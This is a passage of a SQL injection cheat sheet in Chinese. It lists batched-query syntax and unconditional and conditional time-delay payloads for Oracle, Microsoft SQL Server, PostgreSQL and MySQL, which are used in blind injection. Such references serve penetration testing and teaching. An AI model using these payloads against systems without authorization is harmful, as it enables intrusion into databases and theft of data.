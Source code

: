 |||
| :--- | :--- |
| Oracle | Does not support batched queries. |
| Microsoft | `QUERY-1-HERE; QUERY-2-HERE` |
| PostgreSQL | `QUERY-1-HERE; QUERY-2-HERE` |
| MySQL | `QUERY-1-HERE; QUERY-2-HERE` |

MySQL
- 分批查詢通常不能被用於 SQL injection
- 然而，如果目標 App 用某些 PHP 或 Python API 與 MySQL DB connect，這偶爾是可能的



---------------

## 時間延遲 (Time delays)
當查詢被處理時，你可以在 DB 中引起一個 time delay
- 下面的內容將導致無條件的 delay 10 sec

|||
| :--- | :--- |
| Oracle | `dbms_pipe.receive_message(('a'),10)` |
| Microsoft | `WAITFOR DELAY '0:0:10'` |
| PostgreSQL | `SELECT pg_sleep(10)` |
| MySQL | `SELECT SLEEP(10)` |

---------------

## Conditional time delays
可以測試 boolean condition，並在條件為 `true` 時觸發 time delay

Oracle
```sql
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
```

Microsoft
```sql
IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
```

PostgreSQL
```sql
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
```

MySQL
```sql
SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')
```
